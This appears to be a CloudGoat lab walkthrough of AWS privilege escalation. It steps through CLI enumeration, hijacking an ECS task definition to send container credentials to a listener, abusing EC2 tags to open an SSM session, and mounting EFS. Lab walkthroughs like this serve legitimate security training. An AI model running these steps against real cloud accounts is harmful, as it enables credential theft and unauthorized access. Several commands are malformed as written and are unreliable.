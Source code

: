 Connect to the start ec2 "Ruse_Box" using the public IP and SSH key provided.

`ssh -i cloudgoat ubuntu@<IP ADDRESS>`

Configure the role crednetials 
`aws configure --profile ruse`

List the privlages 
`aws iam list --profile ruse`

List ec2 instances 
`aws ec2 describe-instances --profile ruse `

List all available ecs clusters 
`aws ecs list-clusters --profile ruse`

List services in cloudgoat cluster
`aws ecs list-services --cluster <CLUSTER ARN> --profile ruse`

Download task definition 
`aws ecs describe-task-definition --task-definition <TASK_NAME>:<VERSION> --profile ruse > task_def.json `

Download template to register a new task
`aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

Now use task_def.json to fillout template.json with the desired payload. Reference our blog for details [here](https://rhinosecuritylabs.com/aws/weaponizing-ecs-task-definitions-steal-credentials-running-containers/)

Now register the tempate to repalce the current running task.
`register-task-definition --cli-input-json file://task_template.json  --profile ruse`

Wait for task to run and POST the credentiuals to your listener

With the new creds add them to "ruse_box"
`aws configure --profile ecs`

Modify admin ec2 tags
`aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true`

Using ecs creds start a session on admin ec2 
`aws ssm start-session --target <INSTANCE ID> --profile ecs`

Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.
`nmap -Pn -P 2049 --open 10.10.10.0/24 `

Mount discovered ec2 
`cd /mnt`
`sudo mkdir /efs`
`sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs`